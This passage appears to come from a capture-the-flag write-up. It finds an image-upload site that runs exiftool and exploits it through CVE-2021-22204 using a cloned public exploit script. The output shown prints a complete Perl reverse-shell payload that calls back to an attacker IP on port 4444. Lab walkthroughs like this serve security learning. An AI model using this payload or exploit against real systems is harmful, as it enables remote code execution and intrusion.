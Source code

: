 Let’s add that subdomain to our /etc/hosts file and visit the site.

![image.png]({{ site.baseurl }}/assets/meta/image%201.png)

Nothing interesting in the source code. Let’s click on the hyperlink.

![image.png]({{ site.baseurl }}/assets/meta/image%202.png)

File upload site. 

Let’s upload a normal image file and see what happens:

![image.png]({{ site.baseurl }}/assets/meta/image%203.png)

The metadata are also displayed. This looks like the output of exiftool. Let’s use that against our image file and compare the output:

```bash
exiftool test.png

ExifTool Version Number         : 13.25
File Name                       : test.png
Directory                       : .
File Size                       : 225 kB
File Modification Date/Time     : 2025:10:06 10:31:11-04:00
File Access Date/Time           : 2025:10:06 10:31:19-04:00
File Inode Change Date/Time     : 2025:10:06 10:31:11-04:00
File Permissions                : -rw-rw-r--
File Type                       : PNG
File Type Extension             : png
MIME Type                       : image/png
Image Width                     : 800
Image Height                    : 600
Bit Depth                       : 8
Color Type                      : RGB with Alpha
Compression                     : Deflate/Inflate
Filter                          : Adaptive
Interlace                       : Noninterlaced
Image Size                      : 800x600
Megapixels                      : 0.480

```

Looks very similar, with some fields missing out. 

Let’s search up exiftool exploit. We find this one that allows arbitrary code execution and a function for a reverse shell. https://github.com/UNICORDev/exploit-CVE-2021-22204. It exploits the Improper neutralization of user data in the DjVu file format in ExifTool. Let’s try it out:

```bash
git clone https://github.com/UNICORDev/exploit-CVE-2021-22204.git
```

Now let’s execute and generate an image file:

```bash
python3 exploit-CVE-2021-22204.py -s 10.10.16.9 4444
 
 UNICORD: Exploit for CVE-2021-22204 (ExifTool) - Arbitrary Code Execution
PAYLOAD: (metadata "\c${use Socket;socket(S,PF_INET,SOCK_STREAM,getprotobyname('tcp'));if(connect(S,sockaddr_in(4444,inet_aton('10.10.16.9')))){open(STDIN,'>&S');open(STDOUT,'>&S');open(STDERR,'>&S');exec('/bin/sh -i');};};")
DEPENDS: Dependencies for exploit are met!
PREPARE: Payload written to file!
PREPARE: Payload file compressed!
PREPARE: DjVu file created!
PREPARE: JPEG image created/processed!
PREPARE: Exiftool config written to file!
EXPLOIT: Payload injected into image!
```